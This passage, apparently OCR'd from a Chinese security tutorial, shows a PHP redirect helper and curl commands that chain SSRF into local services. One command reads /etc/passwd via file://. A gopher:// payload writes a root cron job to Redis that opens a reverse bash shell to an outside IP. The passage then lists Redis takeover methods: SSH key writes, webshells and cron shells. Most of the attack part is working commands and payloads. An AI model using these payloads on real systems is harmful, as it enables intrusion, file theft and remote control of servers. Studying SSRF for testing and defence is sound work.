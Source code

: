 ```php
<?php  
$schema = $_GET['s'];
$ip     = $_GET['i'];
$port   = $_GET['p'];
$query  = $_GET['q'];
if(empty($port)){  
    header("Location: $schema://$ip/$query"); 
} else {
    header("Location: $schema://$ip:$port/$query"); 
}
```

**利用测试**

```bash
# dict protocol - 探测Redis
dict://127.0.0.1:6379/info  
curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=dict&i=127.0.0.1&port=6379&query=info'

# file protocol - 任意文件读取
curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=file&query=/etc/passwd'


# gopher protocol - 一键反弹Bash
# * 注意: gopher跳转的时候转义和`url`入参的方式有些区别
curl -vvv 'http://sec.com:8082/ssrf_only_http_s.php?url=http://sec.com:8082/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0 
a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  
%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3
%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'

```





### SSRF + Redis未授权

众所周知，redis未授权的三种姿势：

1.redis写入ssh公钥，获取操作系统权限；

2.直接向Web目录中写webshell； 

3.linux计划任务执行命令反弹shell。



使用gopher协议来实现

#### gopher协议
